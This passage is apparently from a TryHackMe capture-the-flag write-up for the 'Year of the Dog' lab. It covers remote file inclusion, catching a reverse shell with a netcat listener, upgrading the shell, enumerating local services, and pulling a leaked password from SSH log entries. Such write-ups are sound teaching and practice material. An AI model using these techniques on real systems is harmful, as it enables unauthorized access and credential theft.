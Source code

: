 ![Untitled](Untitled%207.png)

So lets try to upload the payload with hex encoded like above code .

![Untitled](Untitled%208.png)

Now lets try RFI execution on this page →

![Untitled](Untitled%209.png)
_RFI execution_

Its time to get the shell with this RFI →

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/yotd]
└─$ nc -lvnp 4444                 
listening on [any] 4444 ...
connect to [10.8.83.156] from (UNKNOWN) [10.10.84.101] 56514
/bin/sh: 0: cant access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@year-of-the-dog:/var/www/html$ whoami
whoami
www-data
www-data@year-of-the-dog:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@year-of-the-dog:/var/www/html$
```
{: .nolineno}
{: .nolineno}

## SSH SHELL ⤵️

I checked the connections and got this →

```bash
www-data@year-of-the-dog:/$ ss -tunlp | grep 127.0.0.1
tcp   LISTEN  0       80                 127.0.0.1:3306           0.0.0.0:*     
tcp   LISTEN  0       128                127.0.0.1:3000           0.0.0.0:*     
tcp   LISTEN  0       128                127.0.0.1:34247          0.0.0.0:*     
www-data@year-of-the-dog:/$
```
{: .nolineno}
{: .nolineno}

I also found some data related to <span style="color:#fd77f8">dylan</span> user in this file `work_analysis` :

```bash
www-data@year-of-the-dog:/home/dylan$ grep -r 'dylan' work_analysis 
Sep  5 20:52:57 staging-server sshd[39218]: Invalid user dylanLabr4d0rs4L1f3 from 192.168.1.142 port 45624
Sep  5 20:53:03 staging-server sshd[39218]: Failed password for invalid user dylanLabr4d0rs4L1f3 from 192.168.1.142 port 45624 ssh2
Sep  5 20:53:04 staging-server sshd[39218]: Connection closed by invalid user dylanLabr4d0rs4L1f3 192.168.1.142 port 45624 [preauth]
www-data@year-of-the-dog:/home/dylan$
www-data@year-of-the-dog:/home/dylan$ cat .gitconfig 
[user]
	name = Dylan
	email = dylan@yearofthedog.thm
www-data@year-of-the-dog:/home/dylan$
```
{: .nolineno}
{: .nolineno}
